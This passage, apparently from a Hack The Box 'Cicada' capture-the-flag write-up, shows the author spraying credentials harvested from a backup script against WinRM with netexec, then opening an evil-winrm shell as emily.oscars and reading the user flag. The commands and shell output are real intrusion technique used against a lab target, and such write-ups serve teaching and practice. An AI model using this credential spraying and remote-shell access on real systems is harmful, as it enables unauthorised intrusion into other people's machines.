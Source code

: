 ```

```

Since I got the password for user <span style="color:#f04276">emily.oscars</span> from the `backup_script.ps1` file, Lets see if I can have a winrm session with that or now or wait lets check all the creds with winrm session and for that I am gona save the usernames in `user.txt` file and passwords in `pass.txt` file with respective positions.

Now with netexec Tools lets check 🔻

```
nxc winrm 10.10.11.35 -u user.txt -p pass.txt --no-bruteforce --continue-on-success
```
![](Pasted%20image%2020241009171516.png)
_Winrm session enabled on user emily.oscars_

## Winrm Session ⤵️ 

```powershell
┌──(kali🔥kali)-[~/Downloads/HTB/Cicada]
└─$ evil-winrm -i 10.10.11.35 -u emily.oscars -p '<PASSWORD>'    
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> hostname
CICADA-DC
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> tree /f /a
Folder PATH listing
Volume serial number is 1B60-8905
C:.
|   NTUSER.DAT
|
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> cat user.txt
3f629d1d79f940db2d88b0172b2d9126
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> 
```

